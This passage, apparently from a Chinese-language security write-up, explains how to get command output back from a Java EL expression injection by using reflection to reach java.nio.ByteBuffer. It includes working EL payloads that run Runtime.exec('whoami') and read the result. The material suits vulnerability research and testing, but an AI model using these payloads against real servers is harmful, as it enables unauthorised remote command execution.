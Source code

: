 - `java.lang`
- `javax.servlet`
- `javax.servlet.http`
- `javax.servlet.jsp`

而且我们是全路径写入即 `java.nio.ByteBuffer`，传到类加载这步的只有 `java`，没有 `java.lang.java`、`javax.servlet.java` ···这种类

这样无法将 `java.nio.ByteBuffer.allocate(100)` 结果写入的真正原因就找到了，EL 表达式中对于类的加载没有涉及到 `java.nio` 包，这样就无法调用到 `ByteBuffer` 类，并且还**不支持全类名输入**。

改用反射来获得 `ByteBuffer` 类

```
//执行系统命令
${pageContext.setAttribute("inputStream", Runtime.getRuntime().exec("whoami").getInputStream())}
//停一秒，等待Runtime的缓冲区全部写入完毕
${Thread.sleep(1000)}
//读取Runtime inputStream所有的数据
${pageContext.setAttribute("inputStreamAvailable", inputStream.available())}

//通过反射实例化ByteBuffer，并设置heapByteBuffer的大小为Runtime数据的大小
${pageContext.setAttribute("byteBufferClass", Class.forName("java.nio.ByteBuffer"))}
${pageContext.setAttribute("allocateMethod", byteBufferClass.getMethod("allocate", Integer.TYPE))}
${pageContext.setAttribute("heapByteBuffer", allocateMethod.invoke(byteBufferClass, inputStreamAvailable))}
```

可以成功调用，如下图

![Untitled](EL%20RCE%20%E5%9B%9E%E6%98%BE%20b28967b76bb84061b9f8ecb815210d40/Untitled%2026.png)
